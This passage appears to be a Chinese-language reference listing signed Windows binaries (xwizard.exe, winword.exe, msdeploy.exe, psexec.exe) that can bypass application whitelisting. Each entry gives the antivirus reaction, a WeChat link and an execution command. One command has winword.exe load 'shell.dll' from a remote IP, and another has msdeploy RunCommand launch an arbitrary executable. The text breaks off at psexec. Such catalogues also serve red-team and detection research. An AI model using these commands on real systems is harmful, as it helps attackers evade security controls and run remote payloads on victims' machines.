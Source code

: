 - 杀软行为检测：触发杀软行为预警

- 详细文章链接：[https://mp.weixin.qq.com/s/8gaweOqkOrT77riaevvFUg](https://mp.weixin.qq.com/s/8gaweOqkOrT77riaevvFUg)

xwizard.exe应该为Extensible wizard的缩写，中文翻译可扩展的向导主机进程，暂时无法获得官方资料。

利用xwizard.exe加载dll可以绕过应用程序白名单限制，该方法最大的特点是xwizard.exe自带微软签名，在某种程度上说，能够绕过应用程序白名单的拦截。

xwizard.exe支持Win7及以上操作系统，位于%windir%\system32\下。

对应64位系统：

- `%windir%\system32\`对应64位xwizard.exe，只能加载64位xwizards.dll
- `%windir%\SysWOW64\`对应32位xwizard.exe，只能加载32位xwizards.dll


- 执行方式：

```
xwizard processXMLFile 1.txt
```

## winword.exe

- 杀软行为检测：触发杀软行为预警

- 详细文章链接：[https://mp.weixin.qq.com/s/qXWK5i2cDaletSzkAEzL3w](https://mp.weixin.qq.com/s/qXWK5i2cDaletSzkAEzL3w)

winword.exe是微软Microsoft Word的主程序。该字处理程序是微软Microsoft Office组件的一部分。

- 执行方式：

```
winword.exe "http://192.168.19.146/shell.dll"
```

## msdeloy.exe

- 杀软行为检测：触发杀软行为预警

- 详细文章链接：[https://mp.weixin.qq.com/s/1oEzadXZxd3JukrBhNxxyw](https://mp.weixin.qq.com/s/1oEzadXZxd3JukrBhNxxyw)

msdeploy.exe是微软提供的web部署命令行工具，通过它可以方便的部署web应用、数据库等，路径在C:\Program Files\IIS\Microsoft Web Deploy V3。msdeloy.exe可以使IIS可以在本地或远程同步，打包和部署Web应用程序，网站或Web服务器内容和配置。它具有众多功能，这些功能可以高度精确地包括要处理的那些组件，并排除那些不需要的组件。为了能够使用Web Deploy，必须已在源计算机和目标计算机上安装IIS。


- 执行方式：

```
msdeploy.exe -verb:sync -source:RunCommand -dest:Runcommand="C:\Program Files\IIS\Microsoft Web Deploy V3\w_re.exe"
```

## psexec.exe

- 杀软行为检测：触发杀软行为预警
